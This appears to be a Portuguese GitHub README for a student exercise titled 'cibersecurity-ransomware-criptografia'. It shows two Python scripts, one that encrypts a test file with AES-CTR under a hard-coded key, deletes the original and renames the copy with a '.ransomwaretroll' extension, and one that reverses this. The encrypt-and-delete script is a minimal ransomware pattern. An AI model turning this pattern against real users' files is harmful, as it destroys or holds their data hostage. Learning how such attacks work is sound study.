 # cibersecurity-ransomware-criptografia

criei o codigo para criptografar a mensagem

import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo
os.remove(file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()

criei o codigo para descriptografar a mensagem

import os
import pyaes

## abrir o arquivo criptografado
file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
os.remove(file_name)

## criar o arquivo descriptografado
new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()

processo feito no kali-linux

![processo](https://github.com/user-attachments/assets/b88a15f4-c705-41e7-b265-48b23f94245f)

arquivo criptografado

![arquivo criptografado](https://github.com/user-attachments/assets/ef627a09-30a8-471d-af3e-9feec311d393)

arquivo descriptografado

![arquivo descriptografado](https://github.com/user-attachments/assets/4958dd84-a023-4615-add9-6f217733c691)

